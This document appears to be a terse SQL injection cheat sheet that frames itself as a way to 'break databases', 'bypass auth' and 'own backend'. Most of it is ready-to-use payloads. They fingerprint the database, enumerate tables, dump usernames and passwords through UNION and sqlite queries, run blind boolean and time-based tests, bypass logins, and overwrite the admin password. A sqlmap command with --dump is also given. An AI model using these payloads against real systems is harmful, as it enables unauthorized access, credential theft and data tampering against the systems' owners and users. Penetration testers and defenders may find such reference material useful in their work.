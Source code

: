 # break databases via malformed input. extract data, bypass auth, own backend.

## quick test payloads

check if vulnerable:
```sql
' OR 1=1-- -
' OR '1'='1
'; WAITFOR DELAY '00:00:05'-- (mssql)
' AND SLEEP(5)-- - (mysql)
```

## database fingerprinting  

detect database type:
```sql
-- mysql/mssql
',nickName=@@version,email='

-- oracle
',nickName=(SELECT banner FROM v$version),email='

-- sqlite  
',nickName=sqlite_version(),email='
```

## data extraction

### sqlite structure enumeration

list tables:
```sql
',nickName=(SELECT group_concat(tbl_name) 
FROM sqlite_master 
WHERE type='table' 
AND tbl_name NOT like 'sqlite_%'),email='
```

get table structure:
```sql
',nickName=(SELECT sql 
FROM sqlite_master 
WHERE type!='meta' AND sql NOT NULL AND name='usertable'),email='
```

dump table contents:
```sql
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") 
FROM usertable),email='
```

### union-based extraction

find column count:
```sql
' UNION SELECT 1,2,3-- -
```

extract data:
```sql
0 UNION SELECT 1,2,group_concat(table_name) 
FROM information_schema.tables 
WHERE table_schema = 'database_name'
```

get columns:
```sql
0 UNION SELECT 1,2,group_concat(column_name) 
FROM information_schema.columns 
WHERE table_name = 'users'
```

dump credentials:
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') 
FROM users
```

## blind sql injection

### boolean-based blind

test character by character:
```sql
admin123' AND substring(password,1,1) = 'a'-- -
```

check table existence:
```sql
admin123' UNION SELECT 1,2,3 
FROM information_schema.tables 
WHERE table_schema = 'target_db' AND table_name = 'users';
```

### time-based blind

force delays to confirm:
```sql
-- mysql
admin123' UNION SELECT SLEEP(5),2;--

-- mssql  
admin123'; WAITFOR DELAY '00:00:05'-- -

-- postgresql
admin123'; SELECT pg_sleep(5);-- -
```

## authentication bypass

login bypass:
```sql
' OR 1=1-- -
' OR '1'='1
admin' OR '1'='1'-- -
```

password reset:
```sql
-- update admin password
', password='[SHA256_HASH]' WHERE name='Admin'-- -
```

example hash (Password123):
```
008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601
```

## out-of-band exploitation

multi-stage payload:
```sql
' union select '1'' union select 1,2,3,group_concat(password) from users-- -
```

## automated exploitation

basic sqlmap:
```bash
sqlmap -u "http://target/login" \
       --data="username=admin&password=admin" \
       --level=5 --risk=3 --dbms=sqlite \
       --technique=b --dump
```

## operational notes

- [!] `OR 1=1` on UPDATE/DELETE affects all records - have backups ready
- error messages reveal database type and structure  
- always test multiple injection points (headers, cookies, post params)
- union attacks need matching column count and compatible data types
- blind techniques work when no direct output available

# TODO: test against waf/ips protection